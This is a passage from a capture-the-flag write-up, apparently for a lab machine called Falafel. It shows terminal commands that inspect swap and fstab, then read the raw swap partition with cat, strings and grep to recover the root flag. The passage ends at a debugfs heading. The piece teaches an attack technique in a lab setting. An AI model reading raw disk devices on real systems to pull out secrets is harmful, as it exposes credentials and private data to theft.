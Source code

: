    yossi@falafel:/dev/shm/.d$ swapon -s
    Filename                                Type            Size    Used    Priority
    /dev/sda5                               partition       1046524 147000  -1

    yossi@falafel:/dev/shm/.d$ cat /etc/fstab
    # /etc/fstab: static file system information.
    #
    # Use 'blkid' to print the universally unique identifier for a
    # device; this may be used with UUID= as a more robust way to name devices
    # that works even if disks are added and removed. See fstab(5).
    #
    # <file system> <mount point>   <type>  <options>       <dump>  <pass>
    # / was on /dev/sda1 during installation
    UUID=ccba94d2-0b82-49ce-b25d-f1d3615345f0 /               ext4    errors=remount-ro 0       1
    # swap was on /dev/sda5 during installation
    UUID=63f5a640-a3f7-4ea9-9dbd-c9a091ace20c none            swap    sw              0       0

    yossi@falafel:/dev/shm/.d$ mount | grep sda
    /dev/sda1 on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)



### Get Flag - strings

These devices can be read with `dd` or `cat`. In swap, the flag is there
in plaintext:



    yossi@falafel:/dev/shm/.d$ cat /dev/sda5 | strings -a | grep "root.txt" | grep -e "[0-9a-f]\{32\}"
    echo "23b79200..." > root.txt
    printf "23b79200..." > root.txt
    echo "23b79200..." > root.txt
    echo "23b79200..." > root.txt
    printf "23b79200..." > root.txt
    echo "23b79200..." > root.txt



### Get Flag - debugfs
